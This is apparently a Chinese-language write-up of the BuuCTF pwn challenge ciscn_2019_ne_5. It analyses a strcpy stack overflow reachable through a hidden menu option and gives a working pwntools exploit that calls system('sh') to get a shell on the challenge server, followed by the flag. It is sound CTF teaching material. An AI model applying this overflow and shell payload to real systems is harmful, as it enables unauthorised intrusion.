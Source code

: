 ```yaml
---
tags:
  - BuuCTF
  - 简单
  - strcpy
---
```


# ciscn_2019_ne_5

## 前置工作

先 CheckSec，结果如下

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ checksec ciscn_2019_ne_5
[*] '/home/ela/Pwn/ciscn_2019_ne_5'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

再用 IDA 打开看看主程序

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int result; // eax
  int v4; // [esp+0h] [ebp-100h] BYREF
  char src[4]; // [esp+4h] [ebp-FCh] BYREF
  char v6[124]; // [esp+8h] [ebp-F8h] BYREF
  char s1[4]; // [esp+84h] [ebp-7Ch] BYREF
  char v8[96]; // [esp+88h] [ebp-78h] BYREF
  int *v9; // [esp+F4h] [ebp-Ch]

  v9 = &argc;
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  fflush(stdout);
  *(_DWORD *)s1 = 48;
  memset(v8, 0, sizeof(v8));
  *(_DWORD *)src = 0x30;
  memset(v6, 0, sizeof(v6));
  puts("Welcome to use LFS.");
  printf("Please input admin password:");
  __isoc99_scanf("%100s", s1);
  if ( strcmp(s1, "administrator") )
  {
    puts("Password Error!");
    exit(0);
  }
  puts("Welcome!");
  puts("Input your operation:");
  puts("1.Add a log.");
  puts("2.Display all logs.");
  puts("3.Print all logs.");
  printf("0.Exit\n:");
  __isoc99_scanf("%d", &v4);
  switch ( v4 )
  {
    case 0:
      exit(0);
      return result;
    case 1:
      AddLog((int)src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 2:
      Display(src);
      result = sub_804892B(argc, argv, envp);
      break;
    case 3:
      Print();
      result = sub_804892B(argc, argv, envp);
      break;
    case 4:
      GetFlag(src);
      result = sub_804892B(argc, argv, envp);
      break;
    default:
      result = sub_804892B(argc, argv, envp);
      break;
  }
  return result;
}
```

感觉有点多，先跑一次试试看

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ./ciscn_2019_ne_5
Welcome to use LFS.
Please input admin password:administrator
Welcome!
Input your operation:
1.Add a log.
2.Display all logs.
3.Print all logs.
0.Exit
:
```

这个 `admin password` 就是 `administrator`，这个看看上面的主程序就能知道，重点在下面

这里面没有提供 `4` 选项，但从主程序上面我们可以看出来选 `4` 的时候可以 `GetFlag()`，那我们就先试试看

```
The flag is your log:0
```

这里说 `The flag is your log`，说明我们应该添加一条 `log` 再陪他玩，那就暂时由不得我们了，我们先去看看 `AddLog()` 函数长啥样

```c
int __cdecl AddLog(int a1)
{
  printf("Please input new log info:");
  return __isoc99_scanf("%128s", a1);
}
```

感觉也没啥，就是把最大长度 128 的字符串存到传进来的变量中，再看看 `GetFlag()` 长啥样

## `strcpy()` 溢出

```c
int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h] BYREF
  char v3[60]; // [esp+4h] [ebp-44h] BYREF

  *(_DWORD *)dest = 48;
  memset(v3, 0, sizeof(v3));
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```

这里就出现了会导致栈溢出的函数 `strcpy()`，正如他的名字一样，复制字符串，把 `src` 的内容复制到 `dest` 里

如果你看一看主程序，你就会发现，`AddLog()` 和 `GetFlag()` 都用了同样的参数 `src`，也就是说，我们可以传入一个大于 `0x48` 的东西造成 `dest` 那边的栈溢出，这两边是互通的

## 寻找地址

首先我们需要一个 `system()` 函数，这个很简单，很快就找到了，在 `0x80484D0`

还要一个 `/bin/sh` 字符串，Shift + F12 找来找去发现没有，所以用 ROPgadget 来找一找

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary ciscn_2019_ne_5 --string '/bin/sh'
Strings information
============================================================
```

本来以为要 ret2libc 了，但是 ROPgadget 找到了 `sh` 字符串，也算是一种 `/bin/sh` 的平替了

```bash
┌──(ela㉿kali)-[~/Pwn]
└─$ ROPgadget --binary ciscn_2019_ne_5 --string 'sh' 
Strings information
============================================================
0x080482ea : sh
```

这样东西就齐了

## 编写 Exp

```python
from pwn import *

p32 = lambda x: pack(x, 32)

io = remote("node4.buuoj.cn", 26228)

main_addr = 0x8048722
system_addr = 0x80484D0
sh_addr = 0x80482EA

io.sendlineafter("Please input admin password:", "administrator")
io.sendlineafter("0.Exit\n:", "1")

payload = b"A"*(0x48+0x4) + p32(system_addr) + p32(main_addr) + p32(sh_addr)
io.sendlineafter("info:", payload)

io.sendlineafter("0.Exit\n:", "4")
io.interactive()

```

最后得到的 Flag 是 `flag{1b1d17cc-fc42-42f1-8692-f44e99877151}`